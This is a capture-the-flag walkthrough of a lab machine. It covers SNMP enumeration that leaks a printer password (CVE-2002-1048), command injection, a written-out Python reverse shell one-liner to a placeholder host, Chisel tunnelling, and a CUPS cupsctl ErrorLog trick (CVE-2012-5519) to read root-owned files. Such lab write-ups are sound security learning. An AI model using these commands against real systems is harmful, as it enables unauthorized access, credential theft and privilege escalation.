








I begin by performing a full TCP port scan to identify exposed services on the target machine.
nmap 10.10.11.107 -Pn -sC -sV -p- --open -T4The scan reveals a Telnet service; however, I am unable to authenticate due to missing credentials.
I then proceed with UDP enumeration to identify additional services.
nmap 10.10.11.107 -sU --top-ports 20 -sVThis scan reveals an active SNMP service.

I perform service footprinting using snmpwalk to enumerate available SNMP information.
snmpwalk -v 2c -c public 10.10.11.107
The printer service version is vulnerable to Printer SNMP JetAdmin Device Password Disclosure (CVE-2002-1048).
The password is stored inside a specific SNMP variable. Querying this OID returns the password encoded in hexadecimal format.
snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0After decoding the hexadecimal value, I recover the plaintext password.

Using the recovered credentials, I successfully authenticate and obtain a command prompt.

Further testing reveals that the service is vulnerable to command injection.

I exploit this vulnerability to execute a reverse shell payload:
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'After gaining shell access, I run linpeas and discover an internal service listening on a local port.

To access this service, I set up SSH tunneling using Chisel.

./chisel_1.7.7_linux_amd64 client <IP>:9000 R:9631:localhost:631This allows me to access the internal web service locally.

The service is running CUPS 1.6.1, which is vulnerable to CVE-2012-5519 .
This vulnerability allows users in the lpadmin group to modify
the error log location using the cupsctl command.
I verify that my user belongs to this group.
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
By redirecting the error log, I am able to read the contents of
root.txt and successfully retrieve the root flag.